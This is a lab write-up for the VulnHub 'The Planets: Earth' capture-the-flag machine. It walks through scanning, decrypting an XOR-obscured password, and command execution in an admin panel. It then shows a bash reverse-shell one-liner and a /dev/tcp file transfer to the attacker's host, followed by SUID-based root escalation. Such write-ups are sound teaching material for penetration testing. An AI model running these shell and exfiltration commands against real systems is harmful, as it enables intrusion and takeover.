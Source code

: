 # 🌍 The Planets: Earth – VulnHub Walkthrough

**Author**: [SirFlash](https://www.vulnhub.com/entry/the-planets-earth,755/)  
**Difficulty**: Easy  
**Flags**: 2 (User & Root)  
**Tools Used**: `netdiscover`, `nmap`, `gobuster`, `CyberChef`, `netcat`, `ltrace`

---

## 🛰️ 1. Reconnaissance

### 🔍 Discover Target IP

Use `netdiscover` to identify the target machine's IP address:

```bash
netdiscover
```

Assuming the target IP is `192.168.56.106`.

### 🔎 Port Scanning

Perform a comprehensive scan using `nmap`:

```bash
nmap -sV -sC -p- 192.168.56.106
```

Open ports identified:

- 22/tcp – SSH
- 80/tcp – HTTP
- 443/tcp – HTTPS

### 🧾 Analyze SSL Certificate

Accessing `https://192.168.56.106` reveals a Fedora admin page. Inspecting the SSL certificate uncovers DNS names:

- `earth.local`
- `terratest.earth.local`

Add these to my `/etc/hosts` file:

```bash
echo "192.168.56.106 earth.local" | sudo tee -a /etc/hosts
echo "192.168.56.106 terratest.earth.local" | sudo tee -a /etc/hosts
```

---

## 🌐 2. Web Enumeration

### 📂 Directory Brute-Forcing

Use `gobuster` to find hidden directories:

```bash
gobuster dir -u http://earth.local -w /home/lin/Documents/dirb/rockyou.txt
gobuster dir -u https://terratest.earth.local -w  /home/lin/Documents/dirb/rockyou.txt -k
```

Notable findings:

- `/admin` on `earth.local`
- `/robots.txt` on `terratest.earth.local`

### 📄 Analyze `robots.txt`

Access `https://terratest.earth.local/robots.txt` to find:

```
/testingnotes.txt
/testdata.txt
```

`testingnotes.txt` reveals:

- Username: `terra`
- Encryption method: XOR
- Key file: `testdata.txt`

---

## 🔐 3. Decrypting Credentials

The main page at `earth.local` displays encrypted messages. Using [CyberChef](https://gchq.github.io/CyberChef/):

1. Input the encrypted message.
2. Use the `XOR` operation with the contents of `testdata.txt` as the key.

Decryption yields the password: `earthclimatechangebad4humans`

---

## 🛠️ 4. Gaining Initial Access

### 🔑 Login to Admin Panel

Navigate to `http://earth.local/admin` and login with:

- Username: `terra`
- Password: `earthclimatechangebad4humans`

The panel provides a command execution interface.

### 🐚 Establish Reverse Shell

**On my machine (192.168.56.103):**

```bash
nc -lvnp 4444
```

**On the target (via admin panel):**

```bash
bash -i >& /dev/tcp/192.168.56.103/4444 0>&1
```

---

## 🧑‍💻 5. Privilege Escalation

### 🔍 Find SUID Binaries

On the target machine:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Notable binary: `/usr/bin/reset_root`

### 📤 Transfer Binary for Analysis

**On my machine:**

```bash
nc -lvnp 3333 > reset_root
```

**On the target:**

```bash
cat /usr/bin/reset_root > /dev/tcp/192.168.56.103/3333
```

### 🧪 Analyze with `ltrace`

On my machine:

```bash
ltrace ./reset_root
```

The output indicates missing files required by the binary. Create them on the target:

```bash
touch /path/to/missing/file1
touch /path/to/missing/file2
touch /path/to/missing/file3
```

After creating the files, execute:

```bash
/usr/bin/reset_root
```

This resets the root password to `Earth`.

### 🔐 Gain Root Access

```bash
su root
```

Password: `Earth`

---

## 🏁 6. Capture Flags

- **User Flag**: Located in `/var/earth_web/`
- **Root Flag**: Located in `/root/`

---

## 📝 Conclusion

This walkthrough demonstrates the importance of thorough enumeration and analysis in penetration testing. By leveraging tools like `nmap`, `gobuster`, and `ltrace`, and utilizing online resources like CyberChef, we successfully gained root access to the target machine.

---

*Note: This walkthrough is for educational purposes only.*
